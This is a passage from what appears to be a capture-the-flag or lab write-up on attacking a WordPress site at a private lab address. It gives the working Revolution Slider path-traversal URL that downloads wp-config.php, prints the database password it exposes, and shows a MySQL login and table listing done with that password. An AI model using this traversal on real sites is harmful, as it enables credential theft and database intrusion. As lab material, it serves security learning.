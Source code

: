 Hence, we can visit the wordpress page at http://172.30.0.3

### Wordpress Revolution Slider Exploit

Exploit infomation:
- https://www.exploit-db.com/exploits/36554
- https://blog.sucuri.net/2014/09/slider-revolution-plugin-critical-vulnerability-being-exploited.html

Basically, we can extract the wp-config file using the following link

	http://172.30.0.3/wp-admin/admin-ajax.php?action=revslider_show_image&img=../wp-config.php

This prompts us to download a file...

> [admin-ajax.php](admin-ajax.php)

From the file we see credentials for the MySQL database

	// ** MySQL settings - You can get this info from your web host ** //
	/** The name of the database for WordPress */
	define('DB_NAME', 'wordpress');

	/** MySQL database username */
	define('DB_USER', 'wordpress');

	/** MySQL database password */
	define('DB_PASSWORD', '0NYa6PBH52y86C');

	/** MySQL hostname */
	define('DB_HOST', '172.30.0.2');

### Login to MySQL Server

Login

	$ mysql -u wordpress -h 172.30.0.2 -p
	Enter password: 0NYa6PBH52y86C

View the tables

	mysql> use wordpress;
	Database changed
	mysql> show tables;
	+-----------------------+
	| Tables_in_wordpress   |
	+-----------------------+
	| wp_commentmeta        |
	| wp_comments           |
	| wp_links              |
	| wp_options            |
	| wp_postmeta           |
	| wp_posts              |
	| wp_revslider_settings |
	| wp_revslider_sliders  |
	| wp_revslider_slides   |
	| wp_term_relationships |
	| wp_term_taxonomy      |
	| wp_termmeta           |